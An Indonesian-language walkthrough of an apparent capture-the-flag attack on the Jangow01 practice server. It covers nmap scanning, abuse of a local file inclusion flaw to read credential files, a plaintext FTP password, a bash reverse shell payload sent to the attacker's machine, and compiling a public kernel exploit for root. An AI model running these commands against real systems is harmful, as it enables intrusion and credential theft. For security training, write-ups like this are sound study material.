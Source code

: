 # Laporan Serangan Server Jangow01-1.0.1

Ini adalah hasil serangan yang telah dilakukan pada server Jangow01 untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : `ip a` atau `ifconfig` 
- nmap: `nmap -sP <network_id>/<prefix>`
- uji koneksi, kali linux dan server jangow01: `ping <ip_server>`

## Scan Port Server dengan NMAP
- nmap : `nmap -sC -sV <ip_server>`

**Port** yang terbuka dari server adalah :
- ftp (21)
- http (80)

## Access HTTP Server
- coba website dan temukan menu buscar
- terdapat Local File Inclusion (LFI) vulnerability
- ketikkan perintah linux pada URL yang rentan LFI
	- `ls -al`
	- `ls -al wordpress`
- buka file config
	- `cat wordpress/config.php`
- access ftp dengan informasi config.php
	- `ftp <ip_server>`
	- user : <pada_file_config.php>, password : <pada_file_config.php>
	- ftp: Login failed
- cari file lain pada URL LFI
	- `pwd`
	- `ls -al /var/www/html`
- buka file .backup
	- `cat /var/www/html/.backup`
- access ftp dengan informasi .backup
	- `ftp <ip_server>`
	- user : <pada_file.backup>, password : <pada_file.backup>
	- 230 Login successful


## Gunakan Netcat Pada Server
untuk remote server. Karena web terdapat rentan **LFI** dan tidak tersedia port **SSH** maka dari itu kita dapat menggunakan netcat untuk remote server
- buka terminal baru
- buat koneksi netcat server
	- `nc <ip_server> 21`
- login
	- `USER jangow01`
	- `PASS abygurl69`
- buka terminal baru lagi, tanpa menutup terminal sebelumnya
- buat listener netcat
	- `sudo nc -lvnp 443`
- pada url lfi jalankan payload
	- `/bin/bash -c 'bash -i >& /dev/tcp/<ip_kali_linux>/443 0>&1'`
	- encoder payload terlebih dahulu : https://www.urlencoder.org/
- remote berhasil dilakukan
- gunakan reverse dengan python
- ketik perintah di remote tadi
	- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
	- `export TERM=xterm`
- pindah dari mode non user menjadi user jangow
	- `su jangow01`
	- password : `abygurl69`
	- masuk home : `cd /home/jangow01`


## Privilege Escalation
karena user jangow tidak bisa akses user root, maka kita perlu mencari rentan untuk akses root menggunakan tool LINPEASS
- download LINPEASS
	- `https://github.com/carlospolop/PEASS-ng/releases/download/20220731/linpeas.sh`
	- atau menggunakan terminal 
	```
	wget https://github.com/carlospolop/PEASS-ng/releases/download/20220731/linpeas.sh
	```
- upload pada folder home/jangow01 dengan ftp
	- login ftp
	- masuk folder : `cd /home/jangow01`
	- upload file : `put linpeas.sh` (sesuaikan direktori dari linpeas.sh)
- pindah ke terminal netcat remote
	- ubah mode linpeas : `chmod +x linpeas.sh`
	- jalankan linpeas : `./linpeas.sh`
	- dan tunggu (agak sedikit lama)
	- cari CVE (scroll keatas)
	- CVE get_rekt : CVE-2017-16695, Source: http://www.exploit-db.com/exploits/45010


## Exploit
- download exploit
	- `https://www.exploit-db.com/download/45010`
- upload exploit dengan ftp
	- login ftp
	- masuk folder : `cd /home/jangow01`
	- upload file : `put 45010.c` (sesuaikan direktori letak file)
- compile `gcc 45010.c -o cve-2017-16995`
- run `./cve-2017-16995`
- temukan flag
	- masuk root `cd /root`
	- lihat isi folder `ls -al`
	- flag `cat proof.txt`